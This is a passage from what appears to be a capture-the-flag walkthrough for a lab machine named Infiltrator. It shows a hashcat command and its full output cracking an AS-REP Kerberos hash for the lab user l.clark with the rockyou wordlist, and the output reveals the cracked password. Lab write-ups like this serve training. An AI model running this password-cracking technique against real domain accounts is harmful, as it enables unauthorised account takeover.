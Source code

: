 #### 3.1.3. Use hashcat to crack the hashes

Copy the hash `$krb5asrep$23$l.clark@INFILTRATOR.HTB:......` into a file `GetNPUsers.out`

```sh
root@kali:~# hashcat GetNPUsers.out /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-13th Gen Intel(R) Core(TM) i7-13700, 1438/2940 MB (512 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$krb5asrep$23$l.clark@INFILTRATOR.HTB:f5e73aec9e3eb46c7d2e8e6b45bd2449$d5a2fee44714de3bd9053ed2d5508b2c6d87f5639e40d23f624fc1da9a2e3a45b6d404afabcf3dc27b5fb62010d93d1ecc6e108a668101b8041e4796120cdaa080a300a5ae01f6a2d8714e3588e1e94fc429431c8672f1e37c6850df83792e929b3635bd3f5c7a90e1aca1134477e1ceded7792eea172bc1843c6096c62f4636a770a73bc5bff86b4438db3473c9df28a8bd48c034f1800715c49b99185e2f37ede5a5f3a02d8e085d02a221f34466401fbc0c58cbbb0e16c5ed2a0ed28d5535af3f49736bb3525d6e8a9826a633295b5e8b88e180489cd8641d6c36b44c561db8c8386e8e99b35f88b22515b64b8cf97e25:WAT?watismypass!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$l.clark@INFILTRATOR.HTB:f5e73aec9e3eb...f97e25
```